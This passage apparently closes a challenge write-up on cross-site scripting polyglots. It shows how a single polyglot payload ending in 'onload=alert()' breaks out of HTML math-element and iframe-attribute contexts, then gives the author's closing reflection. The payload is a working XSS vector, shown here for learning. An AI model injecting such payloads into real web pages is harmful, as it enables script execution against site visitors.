 ```html
<svg>payload</svg>
```

- Result from payload

```html
<svg>"
x=//`//</style></title></math></select></template></textarea><svg x=*/
onload=alert()//></svg></svg>
```

### Context #13: HTML Math Element

- Code snippet

```html
<math>payload</math>
```

- Result from payload

```html
<math>"
x=//`//</style></title></math></select></template></textarea><svg x=*/
onload=alert()//></svg></math>
```

### Context #14: HTML iFrame

- Code snippet

```html
<iframe data-injection="payload" src="data:text/html,<h1>Ignore me"></iframe>
```

- Result from payload

```html
<iframe data-injection=""
x=//`//&lt;/style&gt;&lt;/title&gt;&lt;/math&gt;&lt;/select&gt;&lt;/template&gt;&lt;/textarea&gt;&lt;svg x=*/
onload=alert()//&gt;&lt;/svg&gt;" src="data:text/html,<h1>Ignore me"></iframe>
</main>
```

---

This is it. It took me a bunch of hours to solve this challenge, but it was worth it. It gave me a great introduction to polyglots.

Thanks for reading.
